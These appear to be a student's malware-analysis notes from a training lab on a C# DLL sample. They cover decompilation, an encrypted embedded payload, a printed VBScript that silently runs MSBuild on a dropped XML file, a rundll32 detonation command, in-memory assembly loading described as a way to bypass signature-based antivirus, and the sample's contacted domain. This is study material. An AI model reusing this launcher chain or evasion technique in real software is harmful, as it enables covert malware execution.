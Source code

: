 # Intro
C# is very easy to reverse engineering this because are compiled in **Common Intermediate Language (CIL)** similar to assembly and load in the `.exe` or `.dll` file. When the code will be executed enter in the game the **Common Language Runtime (CLR)** manage the CIL code and convert it in machine language.

# Reverse Engineering 

Malware Sample: **PMAT-labs/labs/3-4.StaySharp-CSharpMalware/Malware.cryptlib64.dll.malz/Malware.cryptlib64.dll.malz.7z**

## Static Analysis
The real name of our DLL is `EmbedDLL`. Open the DLL in a Dnspy and we ca see the Main function is empty.
![[Pasted image 20250201221510.png]]

In the `embed` method we have a base64 string crypted with AES algorithm.
We have 
![[Pasted image 20250201221823.png]]

So we have a base64 string crypted and after execution the contente will be saved in `C:\Users\Public\embed.xml`, and the second base64 are not crypted so this is the source code of that
```VB
Set oShell = CreateObject ("Wscript.Shell") 
Dim strArgs
strArgs = "C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Users\Public\embed.xml"
oShell.Run strArgs, 0, false
```

So this vb script build using MSBuild the previously xml.


## Dynamic Analysis

We can launch a DLL with `rundll32.exe <DLLname>`. By default this execute the `main` function but as notice previously we don't have anything in the main function we need to execute the `embed` function.

```bash
rundll32.exe .\Malware.cryptlib64.dll, embed
```

The xml file 
![[Pasted image 20250201225751.png]]
![[Pasted image 20250201225807.png]]

Now we can examinate the content of xml file.
![[Pasted image 20250201230430.png]]

- `System.Reflection.Assembly.Load(oms.ToArray())`: This load an .NET Assembly  in memory without write on disk.
- `.EntryPoint.Invoke(0, new object[] { new string[]{ } })`: This invoke the `main` function in the assembly loaded.

This is useful to bypass AV signed based.

I have tied to execute the vbs file and i notice the malware contact the following domain:

`srv.masterchiefsgruntemporium.local`
![[Pasted image 20250201231708.png]]

And execute a GET request of the following URI
`http://srv.masterchiefsgruntemporium.local/en-us/docs.html`

